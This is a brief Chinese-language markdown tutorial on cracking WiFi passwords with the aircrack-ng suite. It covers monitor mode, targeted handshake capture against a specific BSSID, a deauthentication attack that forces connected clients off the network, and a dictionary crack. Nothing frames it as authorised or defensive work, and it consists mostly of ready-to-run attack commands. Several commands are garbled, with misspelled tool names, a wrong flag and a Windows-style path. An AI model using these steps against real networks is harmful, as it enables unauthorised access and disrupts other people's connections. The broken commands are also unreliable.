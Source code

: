 # WIFI 密码爆破

使用aircrack-ng套件,实现这一目的.

## airmon-ng

用于查看可用网卡,还可将驱动支持监听模式的网卡启动.
- 查看可用的网卡 ```sudo airmon-ng ```

- 启动监听模式 ```sudo airmon-ng start wlan0```

## airodump-ng

用于发现现在工作中的AP,并捕捉其报文.

常用命令
- 先发现工作ap, ```sudo airodump wlan0```
- 查看发现的AP中,data数量较大的,至少不为0,记住其bssid和频道,例如bssid为 aa:bb:cc:dd:ee:ff,频道为9
- 设置过滤条件专项抓取握手包 ```sudo airedump --ivs -c 9 -w ~\Documents\mycapture  --bssid aa:bb:cc:dd:ee:ff wlan0```

```
#example

leo@kali:~$ sudo airodump-ng --manufacturer -w ~/Documents/aps wlan1       


sudo airodump-ng --ivs -w ~/Documents/912 --bssid 50:FA:84:63:96:4C  -c 13  wlan1  
```
## aireplay-ng

等待握手包是费时间的.所以考虑采用deauth攻击,使其重连.aireplay可以进行多种攻击,所以完全胜任此项工作.

假设在使用airedump定向抓取中,发现某个与AP连接的client 其mac为: a1:b1:c1:d1:e1:f1
- 在使用airedump定向抓取后,新开终端执行命令 ```sudo aireplay -o 5 --bssid aa:bb:cc:dd:ee:ff -d a1:b1:c1:d1:e1:f1```.这个命令可以发送5次deauth攻击.



```
leo@kali:~$ sudo aireplay-ng -0 5 -a 50:FA:84:63:96:4C  -c ac:04:81:d2:65:8c  wlan1
```

## aircrack-ng

```sudo aircrack-ng -a 2 -w 字典文件 **.cap```